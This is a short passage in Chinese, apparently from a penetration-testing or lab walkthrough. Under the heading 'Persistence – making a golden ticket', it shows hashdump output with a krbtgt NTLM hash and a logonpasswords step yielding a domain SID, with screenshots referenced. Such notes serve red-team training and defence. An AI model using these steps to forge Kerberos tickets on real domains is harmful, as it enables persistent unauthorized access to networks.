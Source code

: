 

#### 权限维持-制作黄金票据

用hashdump查看krbtgt密码

krbtgt: 502: aad3b435b51404eeaad3b435b51404ee:82dfc71b72a11ef37d663047bc2088fb:::

![img](assets/1660646769535-f0996e82-599e-4cab-8d19-de625bbe3a23.png)

 用logonpasswords查看sid

S-1-5-21-2756371121-2868759905-3853650604-1001

![img](assets/1660646890819-b3e0194f-e0b8-4251-99f2-0259bf4aa688.png)
